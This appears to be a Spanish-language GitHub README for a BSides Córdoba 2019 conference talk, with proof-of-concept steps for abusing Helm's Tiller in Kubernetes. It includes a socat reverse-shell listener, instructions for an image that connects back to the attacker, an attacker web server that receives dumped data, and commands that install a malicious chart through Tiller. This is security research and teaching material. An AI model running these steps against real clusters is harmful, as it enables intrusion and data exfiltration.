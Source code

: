 # Bsides Córdoba2019

Este repositorio contiene los recursos necesarios para desplegar pruebas de concepto utilizando Tiller como vector/target de ataque.

* [Talk](https://www.youtube.com/watch?v=Ax7wMuxwMuY&t=20400)
* [Slides](https://bsidescordoba.org/slides/Preventing_attacks_to_Helm_on_K8s.pdf)

## Getting Started

El *startpoint* es una aplicación previamente vulnerada. Para simular el caso, en el folder `/app` se encuentran los archivos requeridos para desplegar una imagen que establecerá un *reverse-shell* contra la IP del atacante.

### Prerequisites

* Editar el archivo `/app/socat-shell.sh` indicando *address:port* del atacante en el campo `tcp`.
* Utilizar como *build context* el folder `/app`. Pushear la imagen obtenida a DockerHub.
* Editar el archivo `/app/pod.yaml` indicando *repository/image:tag* correspondiente en el campo `image`.
* Iniciar un *listener* en el host atacante, utilizando el valor *port* declarado en `/app/socat-shell.sh`:

```sh
socat file:`tty`,raw,echo=0 tcp-listen:port
```

* Desplegar un *pod* utilizando el archivo `/app/pod.yaml`.
* Iniciar un webserver local para recibir el *dump* de datos, ej: [mayth/simple-upload-server](https://hub.docker.com/r/mayth/simple-upload-server/).
* Editar el archivo `/templates/job.yaml` indicando *URL* del webserver del atacante en el campo `command`.
* Crear y publicar un *chart* de Helm utilizando los manifiestos incluídos en el folder `/templates`.

### Walkthrough

Desde el *reverse-shell*, ejecutar los siguientes comandos:

```sh
export HELM_HOME=$(pwd)/helmhome
export HELM_HOST=tiller-deploy.kube-system.svc.cluster.local:44134 #Default `tiller.svc`
export VER=v2.10.0 #Indica versión de Helm
curl -L "https://storage.googleapis.com/kubernetes-helm/helm-${VER}-linux-amd64.tar.gz" | tar xz --strip-components=1 -C . linux-amd64/helm #Descarga binario de Helm
./helm init --client-only #Inicia client-side de Helm
./helm repo add `chart-name` `chart-url` #Reemplazar por los valores obtenidos al momento de publicar el chart
./helm repo update
./helm install -n tiller-test `repository/chart-name` #Reemplazar por los valores obtenidos al momento de publicar el chart
./helm delete --purge tiller-test #Elimina workloads
```

Happy Helming!
